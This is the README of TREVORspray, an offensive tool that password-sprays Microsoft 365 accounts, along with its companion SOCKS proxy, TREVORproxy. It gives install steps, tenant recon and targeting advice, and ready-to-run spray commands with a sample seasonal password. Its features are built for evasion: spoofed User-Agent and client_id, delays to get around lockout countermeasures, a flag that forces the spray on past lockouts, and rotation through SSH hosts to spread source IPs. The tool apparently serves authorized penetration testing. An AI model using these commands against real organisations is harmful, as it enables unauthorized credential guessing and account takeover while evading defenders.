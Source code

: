 # TREVORspray
TREVORspray is a featureful Microsoft 365 password sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) 

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (remembers already-tried user/pass combos in `~/.trevorspray/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `~/.trevorspray/trevorspray.log`
- Saves valid usernames to `~/.trevorspray/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## How To
- First, get a list of emails for `corp.com` and perform a spray to see if the default configuration works. Usually it does.
- If TREVORspray says the emails in your list don't exist, don't give up. Get the `token_endpoint` with `--recon corp.com`. The `token_endpoint` is the URL you'll be spraying against (with the `--url` option).
- It may take some experimentation before you find the right combination of `token_endpoint` + email format.
    - For example, if you're attacking `corp.com`, it may not be as easy as spraying `corp.com`. You may find that Corp's parent company Evilcorp owns their Azure tenant, meaning that you need to spray against `evilcorp.com`'s `token_endpoint`. Also, you may find that `corp.com`'s internal domain `corp.local` is used instead of `corp.com`.
    - So in the end, instead of spraying `bob@corp.com` against `corp.com`'s `token_endpoint`, you're spraying `bob@corp.local` against `evilcorp.com`'s.

## Example: Perform recon against a domain (retrieves tenant info, autodiscover, mx records, etc.)
```bash
trevorspray.py --recon evilcorp.com
...
    "token_endpoint": "https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token"
...
```

## Example: Spray against discovered "token_endpoint" URL
```bash
trevorspray.py -e emails.txt -p Fall2021! --url https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token
```

## Example: Spray with 5-second delay between requests
```bash
trevorspray.py -e bob@evilcorp.com -p Fall2021! --delay 5
```

## Example: Spray and round-robin between 3 IPs (the current IP is also used, unless `-n` is specifiied)
```bash
trevorspray.py -e emails.txt -p Fall2021! --ssh root@1.2.3.4 root@4.3.2.1
```

## TREVORspray - Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] [-e EMAILS [EMAILS ...]] [-p PASSWORDS [PASSWORDS ...]] [-r DOMAIN [DOMAIN ...]] [-f] [-d DELAY] [-u URL] [-v] [-s USER@SERVER [USER@SERVER ...]] [-k KEY]
                      [-b BASE_PORT] [-n]

Execute password sprays against O365, optionally proxying the traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -r DOMAIN [DOMAIN ...], --recon DOMAIN [DOMAIN ...]
                        Retrieves info related to authentication, email, Azure, Microsoft 365, etc.
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  -u URL, --url URL     The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Show which proxy is being used for each request
  -s USER@SERVER [USER@SERVER ...], --ssh USER@SERVER [USER@SERVER ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -b BASE_PORT, --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
  -n, --no-current-ip   Don't spray from the current IP, only use SSH proxies
```

## Known Limitations:
- Untested on Windows


# TREVORproxy
TREVORproxy is a SOCKS proxy that round-robins requests through SSH hosts. Note that TREVORspray already has its own proxy feature (`--ssh`), so this is for use with curl, Burpsuite, etc.

## TREVORproxy - Help:
```
$ ./trevorproxy.py --help
usage: trevorproxy.py [-h] [-p PORT] [-l LISTEN_ADDRESS] [-v] [-k KEY] [--base-port BASE_PORT] ssh_hosts [ssh_hosts ...]

Spawns a SOCKS server which round-robins requests through the specified SSH hosts

positional arguments:
  ssh_hosts             Round-robin load-balance through these SSH hosts (user@host)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for SOCKS server to listen on (default: 1080)
  -l LISTEN_ADDRESS, --listen-address LISTEN_ADDRESS
                        Listen address for SOCKS server (default: 127.0.0.1)
  -v, --verbose         Print extra debugging info
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard and showing me how heckin loud I was being :)

![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)

`#trevorforget`
